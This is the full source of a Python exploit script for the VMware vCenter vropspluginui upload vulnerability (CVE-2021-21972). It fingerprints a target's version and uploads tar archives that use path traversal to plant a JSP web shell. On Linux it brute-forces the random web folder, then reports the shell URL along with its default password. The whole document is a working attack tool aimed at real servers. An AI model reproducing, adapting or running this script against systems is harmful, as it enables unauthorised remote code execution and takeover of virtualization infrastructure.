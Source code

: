 '''
Author         : Sp4ce
Date           : 2021-02-25 00:18:48
LastEditors    : Sp4ce
LastEditTime   : 2021-03-10 12:59:59
Description    : Challenge Everything.
'''
import requests
import os
import argparse
import urllib3
import tarfile
import time
import sys

# remove SSL warning
urllib3.disable_warnings()

# get script work path
WORK_PATH = os.path.split(os.path.realpath(__file__))[0]

# init payload path
WINDOWS_PAYLOAD = WORK_PATH + "/payload/Windows.tar"
LINUX_DEFAULT_PAYLOAD = WORK_PATH + "/payload/Linux.tar"
LINUX_RANDOM_PAYLOAD_SOURCE = WORK_PATH + "/payload/Linux/shell.jsp"
LINUX_RANDOM_PAYLOAD_TARFILE = WORK_PATH + "/payload/Linux_Random.tar"

# init vulnerable url and shell URL
VUL_URI = "/ui/vropspluginui/rest/services/uploadova"
WINDOWS_SHELL_URL = "/statsreport/shell.jsp"
LINUX_SHELL_URL = "/ui/resources/poiuytrewq.jsp"

# set connect timeout
TIMEOUT = 10

# set headers
headers = {}
headers[
    "User-Agent"
] = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.182 Safari/537.36"
headers["Cache-Control"] = "no-cache"
headers["Pragma"] = "no-cache"

# get vcenter version,code from @TaroballzChen
SM_TEMPLATE = b"""<env:Envelope xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:env="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
      <env:Body>
      <RetrieveServiceContent xmlns="urn:vim25">
        <_this type="ServiceInstance">ServiceInstance</_this>
      </RetrieveServiceContent>
      </env:Body>
      </env:Envelope>"""


def getValue(sResponse, sTag="vendor"):
    try:
        return sResponse.split("<" + sTag + ">")[1].split("</" + sTag + ">")[0]
    except:
        pass
    return ""


def getVersion(sURL):
    oResponse = requests.post(sURL + "/sdk", verify=False, timeout=5, data=SM_TEMPLATE)
    if oResponse.status_code == 200:
        sResult = oResponse.text
        if not "VMware" in getValue(sResult, "vendor"):
            print("[-] Not a VMware system: " + sURL, "error")
            return
        else:
            sVersion = getValue(sResult, "version")  # e.g. 7.0.0
            sBuild = getValue(sResult, "build")  # e.g. 15934073
            sFull = getValue(sResult, "fullName")
            print("[+] Identified: " + sFull, "good")
            return sVersion, sBuild
    print("Not a VMware system: " + sURL, "error")
    sys.exit()


# Utils Functions, Code From @horizon3ai
def make_traversal_path(path, level=2):
    traversal = ".." + "/"
    fullpath = traversal * level + path
    return fullpath.replace("\\", "/").replace("//", "/")


def archive(file, path):
    tarf = tarfile.open(LINUX_RANDOM_PAYLOAD_TARFILE, "w")
    fullpath = make_traversal_path(path, level=2)
    print("[+] Adding " + file + " as " + fullpath + " to archive")
    tarf.add(file, fullpath)
    tarf.close()


# Tool Functions
def checkVul(URL):
    try:
        res = requests.get(
            URL + VUL_URI, verify=False, timeout=TIMEOUT, headers=headers
        )
        print("[*] Check {URL} is vul ...".format(URL=URL))
        if res.status_code == 405:
            print("[!] {URL} IS vul ...".format(URL=URL))
            return True
        else:
            print("[-] {URL} is NOT vul ...".format(URL=URL))
            return False
    except:
        print("[-] {URL} connect failed ...".format(URL=URL))
        return False


def checkShellExist(SHELL_URI):
    time.sleep(
        5
    )  # vCenter copy file to web folder need some time, on most test,5s is good
    re = requests.get(SHELL_URI, verify=False, timeout=TIMEOUT, headers=headers)
    if re.status_code == 200:
        return True
    else:
        return False


def uploadWindowsPayload(URL):
    file = {"uploadFile": open(WINDOWS_PAYLOAD, "rb")}
    re = requests.post(
        URL + VUL_URI, files=file, verify=False, timeout=TIMEOUT, headers=headers
    )
    if "SUCCESS" in re.text:
        if checkShellExist(URL + WINDOWS_SHELL_URL):
            print(
                "[+] Shell exist URL: {url}, default password:rebeyond".format(
                    url=URL + WINDOWS_SHELL_URL
                )
            )
        else:
            print("[-] All payload has been upload but not success.")
    else:
        print("[-] All payload has been upload but not success.")


def uploadLinuxShell(URL):
    print("[*] Trying linux default payload...")
    file = {"uploadFile": open(LINUX_DEFAULT_PAYLOAD, "rb")}
    re = requests.post(
        URL + VUL_URI, files=file, verify=False, timeout=TIMEOUT, headers=headers
    )
    if "SUCCESS" in re.text:
        print("[+] Shell upload success, now check is shell exist...")
        if checkShellExist(URL + LINUX_SHELL_URL):
            print(
                "[+] Shell exist URL: {URL}, default password:rebeyond".format(
                    URL=URL + LINUX_SHELL_URL
                )
            )
        else:
            print(
                "[-] Shell upload success, BUT NOT EXIST, trying Linux Random payload..."
            )
            uploadLinuxRandomPayload(URL)
    else:
        print("[-] Shell upload success, BUT NOT EXIST, trying windows payload...")
        uploadWindowsPayload(URL)


def uploadLinuxRandomPayload(URL):
    for i in range(0, 120):
        """
        vCenter will regenerate web folder when vCenter Server restart
        Attempts to brute force web folders up to 120 times
        """
        archive(
            LINUX_RANDOM_PAYLOAD_SOURCE,
            "/usr/lib/vmware-vsphere-ui/server/work/deployer/s/global/{REPLACE_RANDOM_ID_HERE}/0/h5ngc.war/resources/poiuytrewq.jsp".format(
                REPLACE_RANDOM_ID_HERE=i
            ),
        )
        file = {"uploadFile": open(LINUX_RANDOM_PAYLOAD_TARFILE, "rb")}
        re = requests.post(
            URL + VUL_URI, files=file, verify=False, timeout=TIMEOUT, headers=headers
        )
        if "SUCCESS" in re.text and checkShellExist(URL + LINUX_SHELL_URL):
            print(
                "[+] Shell exist URL: {url}, default password:rebeyond".format(
                    url=URL + LINUX_SHELL_URL
                )
            )
            print(
                "[+] Found Server Path exists!!!! Try times {REPLACE_RANDOM_ID_HERE}".format(
                    REPLACE_RANDOM_ID_HERE=i
                )
            )
            exit()


def banner():
    print(
        """
   _______      ________    ___   ___ ___  __      ___  __  ___ ______ ___  
  / ____\\ \\    / /  ____|  |__ \\ / _ \\__ \\/_ |    |__ \\/_ |/ _ \\____  |__ \\ 
 | |     \\ \\  / /| |__ ______ ) | | | | ) || |______ ) || | (_) |  / /   ) |
 | |      \\ \\/ / |  __|______/ /| | | |/ / | |______/ / | |\\__, | / /   / / 
 | |____   \\  /  | |____    / /_| |_| / /_ | |     / /_ | |  / / / /   / /_ 
  \\_____|   \\/   |______|  |____|\\___/____||_|    |____||_| /_/ /_/   |____|
                Test On vCenter 6.5 Linux/Windows
                VMware-VCSA-all-6.7.0-8217866
                VMware-VIM-all-6.7.0-8217866
                VMware-VCSA-all-6.5.0-16613358 
                        By: Sp4ce                                                    
                        Github:https://github.com/NS-Sp4ce                                                    
    """
    )


if __name__ == "__main__":
    banner()
    parser = argparse.ArgumentParser()
    parser.add_argument(
        "-url",
        "--targeturl",
        type=str,
        help="Target URL. e.g: -url 192.168.2.1、-url https://192.168.2.1",
    )
    args = parser.parse_args()
    url = args.targeturl
    if "https://" not in url:
        url = "https://" + url
        if checkVul(url):
            sVersion, sBuild = getVersion(url)
            if (
                int(sVersion.split(".")[0]) == 6
                and int(sVersion.split(".")[1]) == 7
                and int(sBuild) >= 13010631
            ) or (
                (int(sVersion.split(".")[0]) == 7 and int(sVersion.split(".")[1]) == 0)
            ):
                print(
                    "[-] vCenter 6.7U2+ running website in memory,so this exp can't work for 6.7 u2+."
                )
            sys.exit()
        else:
            uploadLinuxShell(url)
    elif checkVul(url):
        sVersion, sBuild = getVersion(url)
        if (
                int(sVersion.split(".")[0]) == 6
                and int(sVersion.split(".")[1]) == 7
                and int(sBuild) >= 13010631
            ) or (
                (int(sVersion.split(".")[0]) == 7 and int(sVersion.split(".")[1]) == 0)
            ):
            print(
                "[-] vCenter 6.7U2+ running website in memory,so this exp can't work for 6.7 u2+."
            )
            sys.exit()
        else:
            uploadLinuxShell(url)
    else:
        parser.print_help()
